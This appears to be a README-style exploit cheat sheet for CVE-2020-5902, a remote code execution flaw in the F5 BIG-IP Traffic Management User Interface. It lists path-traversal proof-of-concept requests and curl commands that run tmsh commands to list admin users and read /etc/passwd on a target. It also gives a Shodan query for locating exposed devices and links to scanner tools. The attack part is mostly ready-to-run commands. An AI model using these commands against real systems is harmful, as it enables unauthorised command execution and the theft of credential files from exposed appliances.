 # CVE-2020-5902

## Description

In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), 
also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages.

## POC

#### GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
#### GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse

## Tools

- https://github.com/aqhmal/CVE-2020-5902-Scanner
- https://github.com/dunderhay/CVE-2020-5902
- https://gist.github.com/Mad-robot/e8c5a81c87d14c7fe0413be2e912141f
- Shodan Query: title:"BIG-IP`&reg;`- Redirect"

## Exploit
```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```
##### Read File:

```
curl -v -k  'https://TARGET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

```
## Reference

https://www.youtube.com/watch?v=J7WG2iqu9wI
